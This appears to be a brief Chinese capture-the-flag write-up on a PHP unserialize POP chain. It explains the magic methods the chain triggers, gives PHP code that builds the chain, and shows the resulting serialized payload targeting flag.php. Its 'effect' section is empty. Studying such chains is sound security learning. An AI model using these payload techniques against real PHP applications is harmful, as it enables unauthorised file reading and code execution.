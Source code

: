 ### 例题分析

1. 触发 `Modifer`类的 `__invoke` 魔术方法（将类当成函数调用的时候）
2. 触发 `Test`类的 `__get` 魔术方法（调用类不存在的属性的时候）
3. 触发 `Show`类的 `__toString` 魔术方法（将类直接当成字符串输出的时候）
4. 触发 `Show`类的 `__wakeup` 魔术方法（做反序列化操作的时候），利用 echo 触发`__toString`

### pop链构造源码

```php
<?php
//  flag in flag.php
    class Modifier{
        private $var="flag.php";
    }

    class Show{
        public $source;
        public $str;
        # 当将类当初字符串输出的时候触发 __toString 魔术方法
    }

    class Test{
        public $p;
    }

    $show = new Show();
    $modify = new Modifier();
    $test = new Test();

    $test->p = $modify;
    $show->str = $test;
	# source 必须为 Obj Show
    $show->source = $show;
    echo serialize($show);
```

> ```php
> O:4:"Show":2:{s:6:"source";r:1;s:3:"str";O:4:"Test":1:{s:1:"p";O:8:"Modifier":1:{s:3:"var";s:8:"flag.php";}}}
> ```

### 效果
